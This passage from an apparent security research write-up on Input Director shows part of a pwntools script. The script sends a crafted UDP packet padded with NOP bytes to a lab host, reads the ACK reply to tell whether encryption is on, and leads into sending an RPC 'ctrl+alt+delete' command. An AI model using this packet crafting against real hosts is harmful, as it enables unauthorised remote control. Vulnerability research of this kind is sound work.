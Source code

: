 ```python
	"data":                 b"\x90" * 100,
})

def genPacket(packettype):
	buffer = b""
	for key in packettype.keys():
		buffer += packettype[key]

	return buffer

r = remote("172.16.185.132", 31234, typ="udp")
packet = genPacket(sessionPacket)
r.send(packet)
r.close()
```
Executing the above and observing the listener, the remote host sends an ACK message which is the "1B" byte in the hex received. 

<img src = "/assets/images/inputdirector/ack_response.png">

This simple process can be used to determine if a host is utilizing encryption or not (more on this later), but if a host is employing encryption, the same ACK will not be received, and it should come back as an error due to differing configuration settings.

Now that communication with the host is successful, the next step was to ensure that other commands could be sent to the host. To test this, an improved script was written out, and packets were constructed to send an RPC command for a "ctrl+alt+delete". 
